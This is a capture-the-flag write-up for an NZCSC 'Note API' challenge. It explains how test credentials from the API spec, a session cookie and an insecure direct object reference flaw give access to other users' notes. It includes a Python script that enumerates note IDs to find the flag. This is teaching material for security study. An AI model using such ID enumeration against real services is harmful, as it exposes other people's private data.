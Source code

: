# C-4: Note API
>NZCSC is working on creating a note taking application.  
The application is available as an API.  
It is however a work in progress, some endpoints are complete while others are not.  
The documentation for the current version of the API can be found [[noteAPI|here]].

*Unfortunately due to the nature of this challenge we are unable to archive it.*
We are given an OpenAPI specification for a note API. The endpoints can all be accessed at `/challenge4/api.php`.
Most requests to this give back `{ "error": "Unauthorized" }` suggesting we need to login first. Conveniently the username and password are provided at the top of the API specification: `Use username=eve, password=letm3in for testing`.
Sending this in the form of a POST request to `/challenge4/api.php/login` in the form of JSON data gives `{ "message": "Login successful" }` and gives us a PHPSESSID cookie to store. 
We can modify our requests to include this by adding the header `Cookie: PHPSESSID=5b46175213f56d5117a5f71bd1146a18; path=/`. 
To test, we can request `/notes` to see a list of all the current user's notes:
![A screenshot of JSON data showing contents of various notes](notes.png)
These notes have notably (ha) consecutive IDs, which suggests that an IDOR attack (insecure direct object reference) may be possible. We can test this by requesting note 1040, which is not owned by our user. Requesting `/note/1040` gives `{ "id": 1040, "title": "Tech Projects", "content": "Learn Docker" }`. This shows that we are allowed to view notes beyond our own.
It is now a matter of checking more IDs. The script below simply prints the contents of the notes from 1000-1100 (notes below 1000 return `Note not found`):
```python
import http.client

conn = http.client.HTTPSConnection("ctf.nzcsc.org.nz")
payload = ''
headers = {
  'Cookie': 'PHPSESSID=5b46175213f56d5117a5f71bd1146a18; path=/'
}

for i in range(1000, 1100):
  conn.request("GET", "/challenge4/api.php/note/"+str(i), payload, headers)
  res = conn.getresponse()
  data = res.read()
  print(data.decode("utf-8"))
```
and running this shows the flag at ID 1077: `{"id": 1077, "title": "Reading", "content": "FLAG[ABBBB77F699E23DD]" }`.